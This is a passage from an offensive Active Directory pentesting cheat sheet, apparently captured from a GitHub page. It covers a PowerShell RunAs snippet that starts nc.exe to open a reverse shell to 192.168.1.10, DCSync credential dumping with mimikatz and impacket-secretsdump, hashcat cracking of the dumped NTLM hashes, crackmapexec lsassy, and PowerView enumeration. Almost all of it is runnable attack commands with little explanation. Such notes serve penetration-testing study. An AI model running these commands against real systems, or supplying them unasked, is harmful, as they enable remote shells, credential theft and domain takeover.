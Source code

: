                $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`

## DCSync-Domain Controller Synchronization
- Condition:  User needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. *By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights*
- Hence, must have access to members of the Domain Admins, Enterprise Admins, and Administrators groups
- Target of your victim must be known or can be administrator

### DCSync On windows
```powershell
#Assuming we have access to a domain joined machine, we launch mimikatz
#output of lsadump::dcsync is NTLM hash of target user including Administrator
mimikatz # lsadump::dcsync /user:corp\*targetusertoobtaincredential*
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### DCSync on Kali
```bash
#192.168.50.70 = IP of Domain Controller, output is the hash of target user
impacket-secretsdump -just-dc-user *targetuser* corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

### use hashcat to decrypt hash
`hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`


# Active Directory Pentesting

### crackmapexec's lsassy
- `sudo crackmapexec smb -M lsassy 192.168.1.54 -u ippsec -Password12345`
- `sudo crackmapexec smb -M lsassy 192.168.1.54 -u ippsec -Password12345 --server-port 444`
- does not store logs locally

### Powerview

```bash
powershell -ep bypass  
Import-Module .\PowerView.ps1 #loading module to powershell, if it gives error then change execution policy
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetUser -SPN | select samaccountname,serviceprincipalname # Listing SPN accounts in domain
Get-UserProperty -Properties badpwdcount
Find-UserField -SearchField Description -SearchTerm "pass"          #search description field for the word "pass"
Invoke-UserHunter -CheckAccess   # check for the Local Administrator Access of that particular user 
Get-NetGroupMember -GroupName "Domain Admins"       #get SID, Group Doamin name, group name
Get-NetGroup | select cn    #user list for password attacks
Get-NetGroup *admin*       # enumerate domain groups
```